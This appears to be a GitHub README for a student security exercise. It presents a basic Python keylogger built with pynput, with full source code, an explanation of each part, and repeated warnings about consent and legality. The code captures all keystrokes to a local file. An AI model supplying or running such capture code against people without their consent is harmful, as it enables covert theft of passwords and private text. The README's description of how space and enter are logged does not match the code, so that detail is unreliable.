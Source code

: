 # PRODIGY_CS_04
SIMPLE KEYLOGGER
## Keylogger Script using `pynput`

This script implements a basic keylogger using the `pynput` library, which listens for keyboard input and logs the pressed keys into a file. It captures alphanumeric key presses as well as special keys such as the `spacebar`, `enter`, and `esc`. The script is designed to stop recording when the `Esc` key is pressed.

### Key Features:
- **Key Logging**: Records key presses into a text file (`keylog.txt`).
- **Capture Alphanumeric Keys**: Captures any character typed on the keyboard.
- **Capture Special Keys**: Recognizes special keys such as `Enter`, `Space`, and any other non-alphanumeric keys.
- **Stop Listener**: The script will stop when the `Esc` key is pressed.
- **Ethical Warning**: The script includes an ethical warning that stresses the importance of responsible usage.

### How it Works:

1. **`on_press(key)`**:
   - The `on_press` function is called every time a key is pressed.
   - It checks if the key is the `Esc` key. If so, it stops the listener and prints a message: `"Keylogger stopped."`
   - For alphanumeric keys, it retrieves the character using `key.char`.
   - For special keys, it assigns a descriptive string (`[Key.space]`, `[Key.enter]`, etc.) to represent those keys.
   - All captured keys (including special ones) are then appended to a file (`keylog.txt`) in append mode.
   
2. **Ethical Warning**: 
   - The script starts by printing a warning message. This emphasizes that using a keylogger without permission is illegal and unethical.
   - The warning clearly advises that unauthorized use of such tools is a violation of privacy and security laws.

3. **`keyboard.Listener`**:
   - The `Listener` listens for keyboard events and calls the `on_press` function when a key is pressed.
   - The `listener.join()` method keeps the listener running in the background, waiting for key events.

4. **Stopping the Listener**: 
   - The listener stops when the `Esc` key is pressed. This is handled by returning `False` from the `on_press` function, which terminates the listener.

### Example Output in `keylog.txt`:
If a user types `Hello World!` and presses the `Enter` key, the output might look like:

```
Hello World!
```

If the space bar, enter key, or other special keys are pressed, they will be logged with descriptive tags like `[Key.space]` and `[Key.enter]`.

### Ethical and Legal Considerations:

- **WARNING**: **Do not use this keylogger without explicit permission**. Unauthorized logging of keystrokes is illegal in many jurisdictions and violates privacy laws.
- **Privacy**: Recording someone’s keystrokes without their knowledge and consent is a serious breach of privacy.
- **Legal Use Cases**: This script may be used for ethical purposes, such as testing and securing your own systems, with explicit permission from all involved parties. Examples of acceptable use might include:
  - Penetration testing (with written consent)
  - Testing and debugging keyboard input functionality for software you're developing
  - Educational purposes (in controlled environments with consent)

### Alternatives to Keyloggers for Security Testing:
- **User Activity Monitoring Software**: There are legitimate software tools designed for monitoring user activity with consent (e.g., parental controls, employee monitoring with consent).
- **Penetration Testing Tools**: Many ethical hacking tools offer more secure and auditable ways to test the security of your systems.

### Code Example with Ethical Consideration:

```python
from pynput import keyboard

def on_press(key):
    # Stop the listener when Esc is pressed
    if key == keyboard.Key.esc:
        print("\nKeylogger stopped.")
        return False
    
    try:
        # Get the character for alphanumeric keys
        char = key.char
    except AttributeError:
        # Handle special keys
        if key == keyboard.Key.space:
            char = ' '
        elif key == keyboard.Key.enter:
            char = '\n'
        else:
            char = f'[{key.name}]'
    
    # Append the character to the log file
    with open('keylog.txt', 'a', encoding='utf-8') as f:
        f.write(char)

# Ethical warning
print("WARNING: Use this keylogger only with explicit permission.")
print("Unauthorized use violates privacy and security laws.")
print("Press 'Esc' to exit.\n")

# Start the keylogger
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

### Important Notes:
1. **Do Not Deploy on Other People’s Systems**: Never install or use this script on someone else’s system without their explicit consent.
2. **Use with Caution**: Even in environments where you have permission, always be transparent about the use of such tools.
3. **Security**: Make sure to secure the log file (`keylog.txt`). Do not allow unauthorized access to the log file where keystrokes are stored.

### Conclusion:
This keylogger script provides a basic understanding of how keystroke logging works and how it can be implemented using the `pynput` library. While the code is educational, the ethical and legal implications of using such tools should always be considered. Always use keylogging tools responsibly and legally, and only with full consent from all parties involved.
